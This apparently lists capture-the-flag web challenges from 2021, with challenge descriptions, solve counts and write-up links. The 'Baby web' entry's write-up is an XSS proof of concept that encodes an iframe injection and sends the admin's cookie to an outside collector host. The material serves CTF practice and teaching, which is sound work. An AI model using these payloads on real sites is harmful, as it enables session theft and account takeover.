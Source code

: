 ## Fresca Soda (csctf-2021)

**Description (portuguese):** Os cientistas da Igreja do Coletivo andam desconfiando que a Vought International mandou seus herois para descobrirem a formula secreta do seu sucesso internacional Fresca Soda.

Como retaliação, a Igreja pediu a voce que validasse a possibilidade de alguma atividade super estranha no sistema, e deixou claro: A cada dois segundos um de nossos administradores acessa o segredo da formula para garantir que ele esteja seguro.

**Solves:** 2

**First Blood:** -

**Write-up (english):** https://0xten.gitbook.io/public/clearsale-ctf/2021/fresca-soda

## Baby web (lw-2021)

**Description:** pwn me

**Solves:** 2

**First Blood:** -

**Write-up:** 

```
// mydomain/POC.HTML
name='<svg/onload="top.document.location=`https://my.pipedream.net/?c=${top.document.cookie}`;">';
location = "http://challenge_addr/?name=%0074iframe+src=JAVASCRIPT:%26%23x70%3B%26%23x61%3B%26%23x72%3B%26%23x65%3B%26%23x6E%3B%26%23x74%3B%26%23x2E%3B%26%23x6E%3B%26%23x61%3B%26%23x6D%3B%26%23x65%3B%3B%0076%0074/iframe%0076";

// challenge report to admin page:
http://challenge_addr/?report=%3Fname%3D%250074iframe%2Bsrc%3D%2F%2Fmydomain/POC.HTML%250076%250074%2Fiframe%250076
```

